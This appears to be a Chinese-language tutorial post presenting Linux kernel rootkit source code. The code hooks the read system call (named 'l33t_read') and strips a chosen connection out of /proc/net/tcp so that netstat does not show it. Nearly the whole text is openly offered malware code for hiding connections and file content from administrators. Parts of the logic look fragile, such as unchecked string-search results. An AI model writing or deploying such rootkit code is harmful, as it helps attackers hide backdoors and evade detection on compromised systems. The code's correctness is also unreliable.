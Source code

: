 端口隐藏，netstat -nat查看/proc/net/tcp这个文件列出的连接，在read中把连接信息过滤掉

read函数从fd指向的文件中读取count个字节的数据。
函数原型：
#include<unistd.h>
ssize_t read(int fd, void *buf, size_t count); 
参数说明：
   int fd : 文件描述符，指向要读取数据的文件
  void *buf : 用于存放读取的数据的缓存开始地址
  size_t count : 读取到缓冲区的字节数


char *hide_connection = "0101007F:0035";//隐藏的连接，地址：端口号
char *next_connection = "0100007F:0277";

int hide_conn(void *arg, ssize_t size){
	char *p[5];
	char *buf, *p1, *p2;
	int i, newret;

	buf = (char *) kmalloc(size, GFP_KERNEL);
	if(!buf) return(-1);

	if(copy_from_user((void *) buf, (void *) arg, size)) {
		kfree(buf);
		return size;
	}

	p1 = strstr(buf, hide_connection);
	p2 = strstr(buf, next_connection);
	int off = p2-p1;

	i = size - (p1 - buf + off);
	memmove((void *) p1, (void *) (p1 + off), i);//将下一个连接地址复制到目标连接的位置，即过滤掉目标连接
	newret = size - off;//新的缓存大小

	if(copy_to_user((void *) arg, (void *) buf, newret)) {
		kfree(buf);
		return size;
	}

	return newret;

}


asmlinkage ssize_t l33t_read(unsigned int fd, char __user *buf, size_t count) {
	struct file *f;
	int fput_needed;
	ssize_t ret;
       
	if(hide_file_content) {
		ret = -EBADF;

		atomic_set(&read_on, 1);
		f = e_fget_light(fd, &fput_needed);

		if (f) {
#if LINUX_VERSION_CODE <= KERNEL_VERSION(4, 14, 0)
			ret = vfs_read(f, buf, count, &f->f_pos);
#else
			ret = vfs_read_addr(f, buf, count, &f->f_pos);
#endif			
			if(f_check(buf, ret) == 1) ret = hide_content(buf, ret);

			if(f_check(buf, ret) == 2) ret = hide_conn(buf, ret);//f_check找到目标连接时返回2，过滤掉隐藏信息
	    	
			fput_light(f, fput_needed);
		}
		atomic_set(&read_on, 0);
	} else {
		ret = o_read(fd, buf, count);
	}

	return ret;
}

int f_check(void *arg, ssize_t size) {
	char *buf;

	if ((size <= 0) || (size >= SSIZE_MAX)) return(-1);

	buf = (char *) kmalloc(size+1, GFP_KERNEL);
	if(!buf) return(-1);

	if(copy_from_user((void *) buf, (void *) arg, size)) goto out;

	buf[size] = 0;

	if ((strstr(buf, HIDETAGIN) != NULL) && (strstr(buf, HIDETAGOUT) != NULL)) {
		kfree(buf);
		return(1);
	}
	if ((strstr(buf, "local_address") !=NULL) && (strstr(buf, "0101007F")!= NULL)) {		
		kfree(buf);
		return(2);
	}
out:
	kfree(buf);
	return(-1);
}
